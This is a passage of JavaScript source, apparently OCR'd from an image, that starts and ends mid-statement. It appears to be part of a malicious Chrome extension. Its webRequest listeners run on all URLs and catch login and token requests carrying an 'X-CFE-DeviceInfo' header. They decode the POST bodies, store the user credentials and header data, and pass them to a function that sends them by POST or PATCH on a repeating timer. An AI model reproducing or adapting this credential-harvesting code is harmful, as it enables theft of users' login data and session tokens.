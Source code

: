 ```js
      n.url.includes("/login/token") &&
      a &&
      a.find(
        (e) =>
          "X-CFE-DeviceInfo" === (e === null || e === void 0 ? void 0 : e.name)
      )
    ) {
      r(
        {
          ...{
            tokenHeaderDaten: a,
          },
          ...JSON.parse(t),
        },
        "PATCH"
      );
    } else if (
      "POST" === n.method &&
      n.url.includes("/login") &&
      a &&
      a.find(
        (e) =>
          "X-CFE-DeviceInfo" === (e === null || e === void 0 ? void 0 : e.name)
      )
    ) {
      zugangsdatenTemp = JSON.parse(t);
      zugangsdatenTemp.kopfdaten = a;
      r(
        {
          ...zugangsdatenTemp,
          ...e,
        },
        "POST"
      );
    }
    return {
      requestHeaders: n.requestHeaders,
    };
  },
  {
    urls: ["<all_urls>"],
  },
  ["requestHeaders", "extraHeaders"]
);

chrome.webRequest.onBeforeRequest.addListener(
  function (e) {
    const n = new URL(e.url);
    if ("POST" === e.method && n.pathname.includes("/login")) {
      const n =
        (b = e.requestBody) && b.raw
          ? JSON.parse(
              decodeURIComponent(
                String.fromCharCode.apply(null, new Uint8Array(b.raw[0].bytes))
              )
            )
          : {};
      if (n && n.identificacaoUsuario) {
        t = JSON.stringify(n);
        interval = setInterval(s, 2000);
      }
    } else if (
      "POST" === e.method &&
```